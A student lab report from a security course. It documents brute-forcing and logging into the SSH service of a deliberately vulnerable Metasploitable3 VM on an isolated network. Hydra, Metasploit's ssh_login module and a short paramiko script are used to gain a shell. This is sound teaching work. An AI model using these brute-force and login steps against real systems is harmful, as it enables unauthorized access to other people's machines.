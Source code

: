 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
![Attacker IP](Phase1/task1.1_screenshots/AttackerIP.png)

- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions

### 1. Network Connectivity Test

Verified communication between attacker and victim:

```bash
ping 192.168.8.165
```

### 2. Scanning the Victim with Nmap

Discovered open ports and running services:

```bash
nmap -sV 192.168.8.165
```

**Key findings:**
- Port 22/tcp (SSH) - OpenSSH 6.6.1p1
- Port 21/tcp (FTP) - ProFTPD 1.3.5
- Port 80/tcp (HTTP) - Apache httpd 2.4.7

---

## 3. Brute-Forcing SSH with Hydra

Attempted to brute-force SSH login credentials:

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```

**Result:**
- Username: `vagrant`
- Password: `vagrant`

---

## 4. Launching Metasploit Framework

Started Metasploit:

```bash
sudo msfconsole
```

---

## 5. Exploiting SSH Using Metasploit

Loaded the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set necessary options:

```bash
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

## 6. Opening the SSH Session

After successful login:

```bash
sessions
sessions -i 1
```

---

## 7. Verifying Shell Access

Executed simple commands inside the victim machine:

```bash
whoami
uname -a
```

**Output:**
- Current user: `vagrant`
- Operating System: Ubuntu 14.04 LTS

---

# Task 1.2: Automated Exploitation Using a Custom Python Script

## Step-by-Step Actions

### 1. Installing Python SSH Library

Installed `paramiko` for SSH communication:

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Custom Script

Created a script `ssh_exploit.py` to automate the login process:

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
```

### 3. Running the Script
Executed the exploit:




```bash
python3 ssh_exploit.py
```
### 4. Verifying Access
Output confirmed successful login as vagrant and execution of commands on the victim machine.
